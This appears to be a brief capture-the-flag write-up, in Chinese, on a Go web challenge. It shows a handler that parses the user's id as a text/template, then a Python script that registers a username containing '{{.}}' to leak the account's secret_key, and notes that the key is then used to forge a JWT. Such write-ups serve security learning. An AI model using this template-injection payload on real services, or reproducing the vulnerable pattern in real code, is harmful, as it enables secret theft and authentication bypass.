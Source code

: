 tags:: CTFWEB/SSTI/Golang_text_template, CTFWEB/Golang

- # 思路
	- 打root_handler的SSTI拿到secret_key，然后伪造JWT token
- # SSTI
	- 看到
		- secret_key在每一个Account struct中，只需要打印出这个struct就能拿到
		- root_handler中存在SSTI
			- ```go
			  id, _ := jwt_decode(token)
			  acc := get_account(id)
			  tpl, err := template.New("").Parse("Logged in as " + acc.id)
			  if err != nil {
			  }
			  tpl.Execute(w, &acc)
			  ```
	- 干
		- ```python
		  username = fake_en_name() + ": {{.}}"
		  r = base_post(url + "/regist", data = {
		      "id": username,
		      "pw": "114514"
		  })
		  r = base_post(url + "/auth", data = {
		      "id": username,
		      "pw": "114514"
		  })
		  token = r.json()["token"]
		  r = base_post(url + "/", headers = {
		      "X-Token": token
		  })
		  print(r.text)
		  ```
-